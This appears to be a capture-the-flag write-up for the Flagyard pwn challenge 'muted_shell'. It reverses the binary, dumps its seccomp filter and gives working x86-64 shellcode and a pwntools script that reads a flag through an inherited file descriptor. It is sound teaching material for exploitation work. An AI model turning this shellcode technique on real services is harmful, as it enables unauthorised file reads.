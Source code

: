 ```yaml
---
title: "Flagyard: muted_shell (pwn, easy)"
date: 2025-08-22
toc: true
---
```


![](https://github.com/user-attachments/assets/558c779d-ccdc-4848-bc44-33c27992dbba)

## muted_shell: the binary
Let's take a look at the binary:

```bash
$ file muted_shell | tr ',' '\n'
muted_shell: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=d3eb2c77f71982b5288585a740784397c71076ae
 for GNU/Linux 3.2.0
 not stripped
 
$ pwn checksec muted_shell
[*] '/home/kali/Desktop/ctfs/flagyard/muted_shell/muted_shell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

$ ./muted_shell
Send your shellcode:
^C
 ```

 So we can see that we are dealing with a PIE enabled 64 bit binary with an executable stack. When we run it, the binary prompts us to send shellcode. Since we don’t have shellcode yet, the next step is reversing the binary.

 ## Reverse Engineering

When we take a look at the main function in Ghidra, we see this:

 ```c
bool main(void)

{
  code *__buf;
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  open("./flag",0);
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf != (code *)0xffffffffffffffff) {
    puts("Send your shellcode:");
    read(0,__buf,0x100);
    install_seccomp();
    (*__buf)();
  }
  else {
    perror("mmap");
  }
  return __buf == (code *)0xffffffffffffffff;
}
 ```

 `main()` function opens the flag file in read mode. Then it allocates memory with mmap() and stores shellcode there. It reads up to 0x100 bytes from stdin into the buffer. Then, seccomp is installed and our shellcode is executed. 

### can u read something without opening it?
 As, we know that `main()` function opens flag file in read mode and does not store the file descriptor returned by `open()`. Then how would we read the flag? 
 Hint suggests something about reading something without opening it. So, I researched how `open()` works. The file descriptor is not stored? No worries. Since `stdin = 0`, `stdout = 1`, `stderr = 2` are already taken, the kernel assigns the next free file descriptor, which is 3.
 So, we have to read the flag from the file descriptor 3.

### seccomp - wtf? 
Seccomp (Secure Computing Mode) is a Linux kernel feature that restricts the system calls a process can make. This prevents typical exploits like spawning a shell with `system("/bin/sh")`.

We can use `seccomp-tools` to see which syscalls are allowed by seccomp. If you don't have `seccomp-tools` installed you can do so by running following command:
```bash
$ gem install seccomp-tools
```
Dumping allowed syscalls for our binary:
```bash
$ seccomp-tools dump ./muted_shell
Send your shellcode:

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0003
 0002: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0003: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0005
 0004: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0005: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
```

As we can see that only read, write & exit syscalls are allowed. 

## Crafting the shellcode

Since the file descriptor for the flag is 3, we can read it and write its content to stdout (1):

```asm
/* read(3, rsp, 0x100) */
xor rdi, rdi
mov dil, 3
mov rsi, rsp
mov rdx, 0x100
mov eax, 0
syscall

/* write(1, rsp, rax) */
mov edi, 1
mov rdx, rax
mov eax, 1
syscall

/* exit(0) */
xor edi, edi
mov eax, 60
syscall
```

## Exploit

We can use pwntools to assemble and send our shellcode:

```python3
from pwn import *

context.arch = "amd64"
asm_code = """
    /* read(3, rsp, 0x100) */
    xor rdi, rdi
    mov dil, 3
    mov rsi, rsp
    mov rdx, 0x100
    mov eax, 0
    syscall

    /* write(1, rsp, rax) */
    mov edi, 1
    mov rdx, rax
    mov eax, 1
    syscall

    /* exit(0) */
    xor edi, edi
    mov eax, 60
    syscall
"""

shellcode = asm(asm_code)

p = process("muted_shell")
p.sendline(shellcode)
p.interactive()
```

When we run it:

```bash
$ python3 exploit.py
[!] Could not find executable 'muted_shell' in$PATH, using './muted_shell' instead
[+] Starting local process './muted_shell': pid 1028017
[*] Switching to interactive mode
[*] Process './muted_shell' stopped with exit code 0 (pid 1028017)
Send your shellcode:
FlagY{test_flag}
[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

To exploit a remote instance, replace `process("./muted_shell")` with:
```python
p = remote("IP_ADDRESS", PORT)
```
